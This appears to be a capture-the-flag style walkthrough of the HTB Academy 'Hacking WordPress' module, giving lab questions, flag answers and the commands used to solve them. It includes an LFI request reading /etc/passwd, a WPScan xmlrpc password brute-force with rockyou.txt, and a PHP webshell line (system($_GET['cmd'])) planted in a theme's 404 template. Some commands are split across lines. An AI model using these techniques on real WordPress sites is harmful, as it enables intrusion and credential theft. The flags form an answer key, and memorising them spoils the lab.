Welcome to **Part 27** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Hacking WordPress** (Tier II • Medium • Offensive). We break down the underlying mechanics of WordPress architecture, user enumeration, WPScan operations, vulnerable plugin/theme exploitation, credential attacks, and achieving RCE via theme modification, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-26-attacking-web-applications-with-ffuf/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 26: Attacking Web Applications with Ffuf</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 27 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-28-cross-site-scripting-xss/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 28: Cross-Site Scripting (XSS) Exploitation</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Hacking WordPress` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/17](https://academy.hackthebox.com/module/17) |
| **Curriculum Tier & Difficulty** | `Tier II` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 27 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **WordPress Architecture**: Analyzes core directories (`wp-admin`, `wp-content`, `wp-includes`) and critical files (`wp-config.php`).
* **Reconnaissance & Enumeration**: Identifies WordPress core versions, installed plugins, active themes, and user accounts via WPScan and REST API endpoints.
* **Vulnerable Plugin Exploitation**: Weaponizes known CVEs in outdated plugins to achieve arbitrary file uploads, SQL injection, and authentication bypasses.
* **Theme Modification to RCE**: Injects PHP reverse shells into theme template files (e.g., `404.php`, `header.php`) through the administrative theme editor.
* **Credential Harvesting**: Dissects `wp-config.php` to extract MySQL database credentials and cryptographic security salts.

## Executive Summary & Assessment Scope

Powering over 40% of the world's websites, WordPress is the most widely deployed Content Management System (CMS) on the internet. While core WordPress code is actively maintained, third-party plugins and themes frequently introduce critical vulnerabilities.

This module explores the complete WordPress attack lifecycle. We perform detailed user and plugin enumeration, execute dictionary attacks against `wp-login.php`, weaponize vulnerable plugin exploits, modify theme templates to execute reverse shells, and extract all module flags.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Hacking WordPress

> **Lab Question (Page 1)**: Keep in mind the key WordPress directories discussed in the WordPress Structure section. Manually enumerate the target for any directories whose contents can be listed. Browse these directories and locate a flag with the file name flag.txt and submit its contents as the answer.
>
> **Flag / Answer**: `HTB{3num3r4t10n_15_k3y}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

http://<target-IP>:<target-port>/wp-content/plugins/mail-
masta/inc/flag.txt


*_Figure 1.1 — Lab execution and output verification (Page 1)_*


### User Enumeration

> **Lab Question (Page 2)**: From the last cURL command, what user name is assigned to User ID 2?
>
> **Flag / Answer**: `ch4p`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

the command is being run is:
```bash
curl http://blog.inlanefreight.com/wp-json/wp/v2/users | jq
```


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


### Login

> **Lab Question (Page 3)**: Search for "WordPress xmlrpc attacks" and find out how to use it to execute all method calls. Enter the number of possible method calls of your target as the answer.
>
> **Flag / Answer**: `80`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we run the curl command:
```bash
curl -X POST http://<target-IP>:<target-port>/xmlrpc.php
```
-H "Content-Type: text/xml"      --data '<?xml
version="1.0"?>
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>' | grep '/string' | wc -l


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


### WPScan Enumeration

> **Lab Question (Page 4)**: Enumerate the provided WordPress instance for all installed plugins. Perform a scan with WPScan against the target and submit the version of the vulnerable plugin named "photo-gallery".
>
> **Flag / Answer**: `1.5.34`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Method 1:
We go to
http://<target-IP>:<target-port>/wp-content/plugins/photo-
gallery/readme.txt


Method 2: we use wp-scan:
First, we need An API token which can be received from 'https://wpscan.com/'
(registry is required, the use of temporary mail is adviced)
And we run:
```bash
wpscan --url http://<target-IP>:<target-port> --enumerate --
```
api-token <api-key> > output.txt

then we read the output file:
```bash
cat output.txt | grep photo-gallery
```


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


### Exploiting a Vulnerable Plugin

> **Lab Question (Page 5)**: Use the same LFI vulnerability against your target and read the contents of the "/etc/passwd" file. Locate the only non-root user on the system with a login shell.
>
> **Flag / Answer**: `sally.jones`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we run the command:
```bash
curl http://<target-IP>:<target-port>/wp-
```
content/plugins/mail-
masta/inc/campaign/count_of_send.php?pl=/etc/passwd | grep
bash


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


### Attacking WordPress Users

> **Lab Question (Page 6)**: Perform a bruteforce attack against the user "roger" on your target with the wordlist "rockyou.txt". Submit the user's password as the answer.
>
> **Flag / Answer**: `lizard`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use the rockyou.txt password wordlist:
```bash
wpscan --password-attack xmlrpc -t 20 -U roger -P
```
rockyou.txt --url http://<target-IP>:<target-port>


*
*


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


### Remote Code Execution (RCE) via the Theme Editor

> **Lab Question (Page 7)**: Use the credentials for the admin user [admin:sunshine1] and upload a webshell to your target. Once you have access to the target, obtain the contents of the "flag.txt" file in the home directory for the "wp-user" directory.
>
> **Flag / Answer**: `HTB{rc3_By_d3s1gn}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets login:
http://<target-IP>:<target-port>/wp-admin


→

Select the theme 'Twenty Seventeen
And select the page '404 Template' and insert the webshell:
system($_GET['cmd']);


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


And update the file.

All we have to do is to access the
http://<target-IP>:<target-port>/wp-
content/themes/twentyseventeen/404.php?cmd=cat%20/home/wp-
user/flag.txt


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


### Capstone: Skills Assessment

> **Lab Question (Page 9)**: Identify the WordPress version number.
>
> **Flag / Answer**: `5.1.6`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

We will link the target IP to inlanefreight.local and in /etc/hosts

And attempt to go to 'blog':

We will link blog.inlanefreight.local to the target-IP in /etc/hosts as well:
<target-IP> inlanefreight.local blog.inlanefreight.local


And re-enter the sub-domain:


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


*_Figure 9.3 — Lab execution and output verification (Page 9)_*


### And open the file

Now lets run a scan on it, and save the output in output.txt:
```bash
wpscan --url http://blog.inlanefreight.local --enumerate --
```
api-token <api-token> > output.txt


And open the file:

*
*


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


*_Figure 10.3 — Lab execution and output verification (Page 10)_*


*_Figure 10.4 — Lab execution and output verification (Page 10)_*


> **Lab Question (Page 11)**: Identify the WordPress theme in use.
>
> **Flag / Answer**: `twentynineteen`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

on the same 'output.txt' – we filter for 'theme':


Question: Submit the contents of the flag file in the directory with directory
listing enabled.
Answer: HTB{d1sabl3_d1r3ct0ry_l1st1ng!}
Method: we will use dirbuster, and the wordlist
'/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt':

→


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


The flag was found in '/wp-content/uploads/upload.txt. lets enter it:
http://blog.inlanefreight.local/wp-
content/uploads/upload_flag.txt


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


### look for the user's section

> **Lab Question (Page 13)**: Identify the only non-admin WordPress user. (Format: <first-name> <last-name>)
>
> **Flag / Answer**: `Charlie Wiggins`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in the wp-scan output.txt generated in the previous questions, we
look for the user's section:


Question: Use a vulnerable plugin to download a file containing a flag value via
an unauthenticated file download.
Answer: HTB{unauTh_d0wn10ad!}
Method: we look in output.txt for plugins, and notice it uses the plugin 'email-
subscribers'


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


### Now, looking for vulnerabilities of the plugin

Now, looking for vulnerabilities of the plugin:


We go to this following link, and find the following poc:


*_Figure 14.1 — Lab execution and output verification (Page 14)_*

